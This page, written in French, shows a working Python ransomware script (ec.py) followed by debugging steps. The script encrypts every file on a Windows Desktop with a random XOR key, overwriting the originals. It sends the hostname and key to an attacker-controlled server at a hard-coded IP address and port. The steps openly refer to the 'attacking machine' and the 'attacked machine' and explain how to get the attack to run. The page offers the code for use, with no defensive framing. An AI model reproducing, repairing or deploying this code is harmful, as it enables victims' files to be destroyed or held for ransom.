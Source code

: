 

### Script de Chiffrement (ec.py)

```python
import socket
import os
import threading
import queue
import random
import logging

# Configurer le logging
logging.basicConfig(filename='encryption.log', level=logging.DEBUG, format='%(asctime)s %(levelname)s:%(message)s')

# Fonction de chiffrement
def encrypt(file, key):
    try:
        key_index = 0
        max_key_index = len(key) - 1
        encrypted_data = bytearray()
        
        with open(file, 'rb') as f:
            data = f.read()
        
        for byte in data:
            xor_byte = byte ^ ord(key[key_index])
            encrypted_data.append(xor_byte)
            
            # Incrémenter l'index de la clé
            if key_index >= max_key_index:
                key_index = 0
            else:
                key_index += 1
        
        with open(file, 'wb') as f:
            f.write(encrypted_data)
        
        logging.info(f'{file} successfully encrypted')
    except Exception as e:
        logging.error(f'Failed to encrypt {file}: {e}')
        print(f'Failed to encrypt {file}: {e}')

# Informations de socket
IP_ADDRESS = '192.168.1.85'
PORT = 5678

# Informations sur le chiffrement
ENCRYPTION_LEVEL = 64  # 64 bytes for 512-bit encryption
key_char_pool = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ<>?,./[]{}|'
key_char_pool_len = len(key_char_pool)

# Préparer les fichiers à crypter
print("Preparing files...")
desktop_path = os.path.join(os.environ['USERPROFILE'], 'Desktop')
files = os.listdir(desktop_path)
abs_files = []
for f in files:
    if os.path.isfile(os.path.join(desktop_path, f)) and f != __file__[:-2] + 'exe':
        abs_files.append(os.path.join(desktop_path, f))
print("Successfully located all files!")

# Obtenir le nom d'hôte du client
hostname = os.getenv('COMPUTERNAME')

# Générer la clé de chiffrement
print("Generating encryption key...")
key = ''.join(random.choice(key_char_pool) for _ in range(ENCRYPTION_LEVEL))
print("Key Generated!!!")

# Se connecter au serveur pour transférer la clé et le nom d'hôte
try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((IP_ADDRESS, PORT))
        print('Successfully connected... transmitting hostname and key')
        s.send(f'{hostname} : {key}'.encode('utf-8'))
        print('Finished transmitting data!')
except Exception as e:
    logging.error(f'Failed to connect to server: {e}')
    print(f'Failed to connect to server: {e}')

# Créer la file d'attente des fichiers à crypter
q = queue.Queue()
for f in abs_files:
    q.put(f)

# Configurer les threads pour le chiffrement
for i in range(10):
    t = threading.Thread(target=lambda q, arg1: encrypt(q.get(), arg1), args=(q, key), daemon=True)
    t.start()

q.join()
print('Encryption and upload complete!!!')
input()
```

### Étapes de Débogage :

1. **Configurer le Logging :**
   - Le script configure le logging pour enregistrer les messages de débogage dans un fichier `encryption.log`. Cela vous permettra de consulter les messages d'erreur détaillés.

2. **Capture des Exceptions Spécifiques :**
   - Le script capture et enregistre les exceptions spécifiques qui se produisent lors du chiffrement de chaque fichier. Cela vous aidera à identifier la cause exacte des erreurs.

3. **Exécution du Script de Chiffrement :**
   - Assurez-vous que le serveur (`server.py`) est en cours d'exécution sur la machine attaquante avant de lancer le script de chiffrement (`ec.py`) sur la machine attaquée.
   - Ouvrez une invite de commande sur la machine attaquée et exécutez le script de chiffrement avec la commande suivante :

   ```bash
   python ec.py
   ```

4. **Vérifiez le Fichier de Log :**
   - Après l'exécution du script, consultez le fichier `encryption.log` pour obtenir des détails sur les erreurs qui se sont produites. Cela vous donnera des indications précises sur ce qui a échoué et pourquoi.

5. **Adresses IP et Connexions :**
   - Assurez-vous que l'adresse IP de la machine attaquante (hôte) est correcte dans le script `ec.py`.
   - Vérifiez que la machine attaquée peut se connecter à la machine attaquante via l'adresse IP spécifiée.

En suivant ces étapes et en consultant les logs générés, vous devriez être en mesure de diagnostiquer et de résoudre les problèmes de chiffrement des fichiers.
